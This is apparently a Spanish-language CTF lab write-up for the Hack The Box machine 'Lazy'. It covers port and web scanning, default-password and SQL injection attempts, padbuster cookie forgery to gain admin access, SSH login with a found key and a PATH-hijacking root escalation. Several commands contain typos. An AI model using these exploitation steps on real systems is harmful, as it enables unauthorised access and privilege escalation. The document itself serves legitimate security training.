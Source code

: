 # Lazy

## Ip
`ping -c 1 10.10.10.18`

PING 10.10.10.18 (10.10.10.18) 56(84) bytes of data.       │
64 bytes from 10.10.10.18: icmp_seq=1 ttl=63 time=52.9 ms  │
                                                           │
--- 10.10.10.18 ping statistics ---                        │
1 packets transmitted, 1 received, 0% packet loss, time 0ms│
rtt min/avg/max/mdev = 52.946/52.946/52.946/0.000 ms

## whichSystem.py
`whichSystem.py 10.10.10.18`

10.10.10.18 --> Linux 

## Scanning
`nmap -p- --open -T5 -v -n 10.10.10.18 -oN allPorts`

`whatweb http://10.10.10.18`

`locate .nse`

`locate http-enum | xargs grep "categorie"` 

`nmap --script "discovery and intrusive and vuln"`

`nmap --script http-enum -p80 10.10.10.18 -oN webScan` 

`nmap -sC -sV -p22,80 10.10.10.18 -oN targetedPorts`

## Navegamos por la web
CTRL+U

wappalyzer

login y register

Probamos passwords por defecto:
- admin - admin
- admin - pasword
- admin - pass1234

Registramos nuevos users: 
- admin --> user exist?
- yintao 

Creamos /content/extensions.txt --> txt, php

`wfuzz -c -t 300 --hc=404 /usr/share/wordslits/dirbuster/directory2.3-medium.txt -w /content/extensions.txt http://10.10.10.18/FUZZ.FUZ2Z`

## SQLi en login y register
- 'or 1=1-- -
- 'or sleep(5)-- -

## burp site
Nos registramos como bdmin para conseguir el auth cookie por fuerza bruta.

## Padbuster cookie desencriptada
`for i in $(seq 1 10); do echo -e "\n[*] Usando $i bloques\n"; padbuster http://10.10.10.18/login.php cookie $i --cokies auth=cookie --encoding 0; done`

Vemos que tiene 8 bloques y seleccionamos el id ** --> Plain Text: user=yin

`padbuster http://10.10.10.18/login.php cookie 8 --cokies auth=cookie --encoding 0 -plaintext user=admin`

### Modo simplificado

registramos: admin= 

## KEY SSH

user = en la url

~~~
cd content
nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa mitsos@10.10.10.18
whoami
ls
cat user.txt
./backup
strings backup | grep shadow
~~~

## pass hijacking

nano example.c

~~~
#include <stdio.h>

int main(){
    setuid(0);
    printf("\n[*] Listado del contenido /etc/passwd\n\n");
    system("/bin/cat /etc/passwd");

    printf("\n[*] Listado del contenido /etc/passwd\n\n");
    system("/bin/cat /etc/passwd");

    return 0;

}
~~~
`gcc example.c -o backup`

## Sin ruta absoluta nos permite:

`touch cat`

`chmod 777 cat`

`echo bash -p > cat` 

`echo $PATH`

`export PATH=.:$PATH`

`./backup`

`whoami`

`cd /root`

`cat root.txt`

